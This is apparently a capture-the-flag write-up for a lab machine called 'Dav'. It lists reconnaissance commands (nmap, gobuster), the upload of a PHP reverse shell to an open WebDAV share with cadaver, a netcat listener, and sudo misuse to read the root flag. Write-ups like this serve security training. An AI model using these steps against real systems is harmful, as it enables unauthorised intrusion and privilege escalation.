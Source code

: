 # Dav

## :writing\_hand: Solution

### user.txt

```
nmap 10.10.153.244
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 15-34-56.png>)

```
gobuster dir -u http://10.10.153.244/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64

```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 15-42-02.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-28 15-48-50.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-28 15-49-38.png>)

```bash
cadaver http://10.10.153.244/webdav/
dav:> put put php-reverse-shell.php
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 15-55-46.png>)

```bash
nc -nvlp 4444
$ find / -name user.txt 2>/dev/null
$ cat /home/merlin/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 15-56-21.png>)

### root.txt

```
$ sudo -l
$ sudo /bin/cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 16-01-57.png>)

## :link: Support Material

{% embed url="http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html" %}

{% embed url="https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/" %}
